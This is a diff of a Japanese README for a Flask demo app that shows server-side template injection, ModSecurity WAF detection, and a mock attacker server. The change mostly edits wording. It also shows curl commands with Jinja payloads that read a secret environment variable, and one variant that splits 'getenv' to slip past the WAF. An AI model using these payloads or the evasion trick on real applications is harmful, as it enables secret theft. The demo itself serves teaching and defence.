

Before and after one commit to phrude/flask-demoapp, a Markdown page: README.md, the part around the change printed below. Shown: that part at 86% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -15,11 +15,9 @@ Webアプリに任意の処理を挿入する攻撃のうち、外部からのHT
 
 DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで
 
-<http://localhost:8080> Python Flask製のデモ用Webアプリ
-
-<http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
-
-<http://localhost:8082> 攻撃の実行時に流出した攻撃を受け取る、攻撃者の模擬サーバー
+- <http://localhost:8080> Python Flask製のデモ用Webアプリ
+- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
+- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー
 
 が起動します。
 
@@ -35,7 +33,7 @@ DockerおよびDocker Composeをインストール後、`docker compose up -d`
 curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
 ```
 
-もしくは <http://localhost:8080> Python Flask製のデモ用Webアプリに
+もしくは <http://localhost:8080> デモ用Webアプリに
 
 ```
 {{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
@@ -49,7 +47,7 @@ curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals
 
 ### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃
 
-先程のPython Flask製のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように
+先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように
 
 以下のようなcurlコマンドの実行
 
@@ -57,7 +55,7 @@ curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals
 curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
 ```
 
-もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリに
+もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに
 
 ```
 {{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
@@ -69,7 +67,7 @@ curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals
 
 WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。
 
-`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し攻撃であると判断されたことが分かります。
+`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。
 
 ### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃
 
@@ -81,7 +79,7 @@ WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字
 curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
 ```
 
-もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリに
+もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに
 
 ```
 {{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
````
Also changed, not shown: other parts of README.md (+34 -0 lines).
